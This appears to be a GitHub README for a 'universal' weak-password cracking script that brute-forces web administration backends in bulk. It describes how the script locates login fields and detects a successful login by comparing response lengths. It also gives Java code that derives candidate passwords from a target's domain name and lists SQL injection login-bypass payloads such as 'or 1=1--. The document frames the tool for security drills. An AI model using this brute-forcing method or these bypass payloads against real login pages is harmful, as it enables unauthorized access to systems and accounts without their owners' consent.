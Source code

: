# Weak_pwd_crack_master
A universal web weak password cracking script aimed at batch detecting management backends without verification codes.
With the increase of attack and defense drills and some vulnerability mining tasks, it is sometimes necessary to quickly detect the security of some website backend in large quantities, especially to test some weak management passwords. Therefore, this tool is available - a universal web weak password cracking script
# Change log
[2023-01-05] We have dealt with the abnormal situations that occurred during the detection, but there are still many problems  

[2023-01-03] We have used multiple threads and conducted a comprehensive summary of login situations for different websites
# Function principle
1.Identify blasting parameters  
  We determine the location of username and password parameters based on extracting keywords such as user pass from the form  
```
if parameter:
  if not user_key:
    for z in [ 'user', 'name','zhanghao', 'yonghu', 'email', 'account']:
      if z in parameter.lower():
        value = '{user_name}'
        user_key = parameter
        ok_flag = 1
        break
      if not ok_flag:
        for y in ['pass', 'pw', 'mima']:
          if y in parameter.lower():
            value = '{pass_word}'
            pass_key = parameter
            ok_flag = 1
            break
```
2.The way to determine successful login  
  This can be said to be the most troublesome issue  
  If it's okay for a management system, just find the pattern and determine if there are any features of successful login
However, as a universal blasting script, there are various websites in the world, and it is impossible to find features one by one or to perform   
regular matching one by one.  
  Finally, we adopt the following matching method  
3.Determine whether to dynamically return a value and obtain Error Length  
  First, let's send two passwords that are definitely incorrect, such as length_ Test.Then,we obtain two return values and compare them.  
  If the values are different twice, it indicates that the management system returns different lengths for the same data packet.  
  At this point, the script cannot determine and exits the explosion.If it is the same, record this value as the basis for judgment.  
  However, in practice, a request will be made first, as it has been found that some management systems add tags to the response header during the first login. 
  Removing this item may result in misjudgment.  
4.Determine if the key names of the username and password exist on the redirected pag  
  There is no need to explain this too much. If it exists, it indicates that the login was unsuccessful and the user has returned to the login page.
  Because during the testing, it was found that some CMS would pop up a login failure box on the login page, directly determining whether it is equal is not accurate.
  There is another way to calculate page hashes and determine the similarity between the two.
  But we don't think it's necessary because there are different systems that are difficult to use a unified threshold for judgment, so we finally gave it up.
5.Recheck
  In order to improve accuracy and prevent false positives, we have added a recheck link.
  That is, send the password of the cracked account to the client again, and compare it with the error sent again_ Length comparison
  If different, it is the correct password.
  The previous error was not used here_ Length is because in actual testing, it was found that the length value of the returned packet may change due to WAF or 
  other factors.  
# Expansion module  
1.Dynamic Dictionary
  The code is as follows：
  ```
public class DictionaryGenerator {
 public List<String> genDynamDic(String url) {
 List<String> dynamPassDic = new ArrayList<>();
 List<String> tmpDic = new ArrayList<>();
 List<String> suffixDic = Arrays.asList("", "123", "888", "666", "123456");
 String[] list1 = url.split("/");
 String host = list1[2].split(":")[0];
 Pattern compileIp = Pattern.compile("^(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)$");
 boolean checkIp = compileIp.matcher(host).matches();
 if (!checkIp) {
 String[] list2 = host.split("\\.");
 int i = list2.length;
 for (int u = 0; u < i; u++) {
 String[] list3 = Arrays.copyOfRange(list2, u, i);
 String part = String.join(".", list3);
 if (part.length() < 5) {
 continue;
 }
 dynamPassDic.add(part);
 }
 for (int u = 0; u < i; u++) {
 String list3 = list2[u];
 if (list3.length() < 5) {
 continue;
 }
 tmpDic.add(list3);
 }
 for (String i : tmpDic) {
 for (String suffix : suffixDic) {
 String u = i + suffix;
 dynamPassDic.add(u);
 }
 }
 return dynamPassDic;
 } else {
 return new ArrayList<>();
 }
 }
}
```  
If the domain name is
  webcrack.yzddmr6.com`
Then the following dynamic dictionary list will be generated.
2.Universal password detection
In addition to weak passwords, a large part of the vulnerabilities in the backend are due to universal passwords  
Some commonly used payloads have also been added to weak_pwd_crack_master
```
admin' or 'a'='a
'or'='or'
admin' or '1'='1' or 1=1
')or('a'='a
'or 1=1--
```
